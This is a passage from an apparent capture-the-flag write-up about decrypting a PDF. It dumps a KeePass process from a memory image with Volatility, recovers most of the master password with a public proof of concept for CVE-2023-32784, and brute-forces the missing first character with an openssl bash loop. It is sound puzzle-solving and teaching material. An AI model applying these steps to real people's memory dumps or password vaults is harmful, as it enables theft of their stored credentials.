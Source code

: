 And now we know exactly how it was ciphered!

## 2.4 Deciphering the pdf
### 2.4.1 Running the exploit
Whichever path you took, at the end of the day you needed 3 elements:
- the savecipher.pdf file -> we have it
- how it was ciphered -> we know
- the key to the cipher -> ?

But we’re still missing the key with which it was ciphered. Most people had already figured out at this point that CVE-2023-32784 was to be used.
So let’s use it:

I used this exploit: https://github.com/dawnl3ss/CVE-2023-32784

We need to dump the keepass process memory

```shell
$ vol3 -f adupont.dmp windows.memmap --dump --pid 2896
```
Then running the exploit gives us a list of possible passwords
```shell
$ python keepass-dump-masterkey/poc.py pid.2896.dmp 
2024-05-08 23:12:53,700 [.] [main] Opened pid.2896.dmp
Possible password: ●ysuper*s4F3pwd78224DB
Possible password: ●ysuper*s4F3pwd78224DC
Possible password: ●%super*s4F3pwd78224DB
Possible password: ●%super*s4F3pwd78224DC
Possible password: ●'super*s4F3pwd78224DB
Possible password: ●'super*s4F3pwd78224DC
```
But we’re still missing the first character
### 2.4.2 Finding the right password
A few intended options at this point:
- If guessed that “mysuper*s4F3pwd…” seemed like a good candidate then
congrats you’ve just saved yourself a lot of time
- If you’re a heavy-approach kind of guy/gal, then you could bruteforce your way into
finding the right password.
Here’s a shell script I wrote to do that
```bash
#!/bin/bash

for char in {a..z} {A..Z} {0..9}
do
    result="${char}ysuper*s4F3pwd78224DB"
    echo "Trying:"$result
    cmd=$(openssl enc -d --aes-256-cbc -in file -out plzdecipher.pdf --iter 2048 --pass pass:$result 2>&1)
    if echo "$cmd" | grep -q "bad"; then
        continue
    else
        echo "Password found:"$result
	break
    fi
done
```
Run it:
```shell
$ chmod +x scriptfile
$ ./scriptfile 
Trying:aysuper*s4F3pwd78224DB
Trying:bysuper*s4F3pwd78224DB
Trying:cysuper*s4F3pwd78224DB
Trying:dysuper*s4F3pwd78224DB
Trying:eysuper*s4F3pwd78224DB
```